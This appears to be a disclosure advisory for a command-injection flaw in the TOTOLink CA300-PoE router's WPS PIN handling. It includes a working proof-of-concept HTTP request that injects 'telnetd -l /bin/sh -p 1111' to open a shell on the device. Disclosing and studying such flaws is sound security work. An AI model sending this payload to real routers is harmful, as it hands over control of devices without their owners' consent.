 # TOTOLink Vulnerability

Vendor:TOTOLink

Product:CA300-PoE

Version:V6.2c.884

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in TOTOLink router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `wps.so` binary:

In `SetWLanApcliSettings` function, `PIN` is directly passed by the attacker, so we can control the `PIN` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `PIN` as **`telnetd -l /bin/sh -p 1111`** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 114
Origin: http://192.168.0.3
Connection: close
Referer: http://192.168.0.3/adm/ntp.asp?timestamp=1750080115380
Cookie: SESSION_ID=2:1750080025:2

{"topicurl":"setting/setWiFiWpsConfig","PINPBCRadio":"1","PINMode":"pjqwudi","PIN":"`telnetd -l /bin/sh -p 1111`"}
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
